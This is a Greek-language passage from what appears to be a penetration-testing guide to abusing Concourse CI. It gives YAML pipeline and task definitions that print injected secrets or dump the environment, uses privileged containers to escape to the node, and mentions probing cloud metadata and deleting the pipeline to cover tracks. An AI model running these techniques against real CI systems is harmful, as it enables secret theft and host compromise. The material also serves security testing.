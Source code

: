 * **Κλέψετε τα μυστικά** μέσα στο **container**
* Προσπαθήσετε να **αποδράσετε** στον κόμβο
* Απαριθμήσετε/Καταχραστείτε το **cloud metadata** endpoint (από το pod και από τον κόμβο, αν είναι δυνατόν)

#### Δημιουργία/Τροποποίηση Pipeline

Αν έχετε αρκετά προνόμια (**μέλος ή περισσότερο**) θα είστε σε θέση να **δημιουργήσετε/τροποποιήσετε νέα pipelines.** Δείτε αυτό το παράδειγμα:
```yaml
jobs:
- name: simple
plan:
- task: simple-task
privileged: true
config:
# Tells Concourse which type of worker this task should run on
platform: linux
image_resource:
type: registry-image
source:
repository: busybox # images are pulled from docker hub by default
run:
path: sh
args:
- -cx
- |
echo "$SUPER_SECRET"
sleep 1000
params:
SUPER_SECRET: ((super.secret))
```
Με την **τροποποίηση/δημιουργία** ενός νέου pipeline θα μπορείτε να:

* **Κλέψετε** τα **secrets** (μέσω echoing τους ή μπαίνοντας στο container και τρέχοντας `env`)
* **Δραπετεύσετε** στον **κόμβο** (δίνοντάς σας αρκετά προνόμια - `privileged: true`)
* Απαριθμήσετε/Καταχραστείτε το **cloud metadata** endpoint (από το pod και από τον κόμβο)
* **Διαγράψετε** το δημιουργημένο pipeline

#### Εκτέλεση Προσαρμοσμένου Task

Αυτό είναι παρόμοιο με την προηγούμενη μέθοδο αλλά αντί να τροποποιήσετε/δημιουργήσετε ένα εντελώς νέο pipeline μπορείτε **απλά να εκτελέσετε ένα προσαρμοσμένο task** (το οποίο πιθανότατα θα είναι πολύ πιο **αφανές**):
```yaml
# For more task_config options check https://concourse-ci.org/tasks.html
platform: linux
image_resource:
type: registry-image
source:
repository: ubuntu
run:
path: sh
args:
- -cx
- |
env
sleep 1000
params:
SUPER_SECRET: ((super.secret))
```
